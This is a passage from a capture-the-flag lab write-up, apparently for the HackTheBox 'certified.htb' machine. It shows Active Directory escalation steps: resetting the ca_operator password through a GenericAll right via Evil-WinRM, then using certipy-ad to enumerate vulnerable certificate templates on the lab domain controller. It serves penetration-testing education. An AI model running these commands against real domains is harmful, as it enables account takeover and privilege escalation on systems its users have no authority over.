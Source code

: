 > `judith.mader` does not have access to view any templates. The situation is similar with the user `management_svc`.

---
> **Note:** At the very beginning I said that the user `ca_operator` is interesting and worth remembering. Well, the name of this account speaks for itself. It should have privileges
> over operations related to certificate templates including `read` rights to simply view them.
---

> I already have access to the system under `management_svc` which has `GenericAll` over the user `ca_operator`. I change the password for the `ca_operator` account so that I can log in.

```bash

*Evil-WinRM* PS C:\Users\management_svc\Documents> Set-ADAccountPassword -Identity "ca_operator" -NewPassword (ConvertTo-SecureString "qwerty123" -AsPlainText -Force) -Reset

```
> Requesting **active** and **vulnerable** certificate templates on behalf of `ca_operator`:

```bash

sudo certipy-ad find -u 'ca_operator@certified.htb' -p qwerty123 -dc-ip 10.10.11.41 -vulnerable -enabled

```
> Result:

![ca_operator_templates](./screenshots/ca_operator_templates.png)

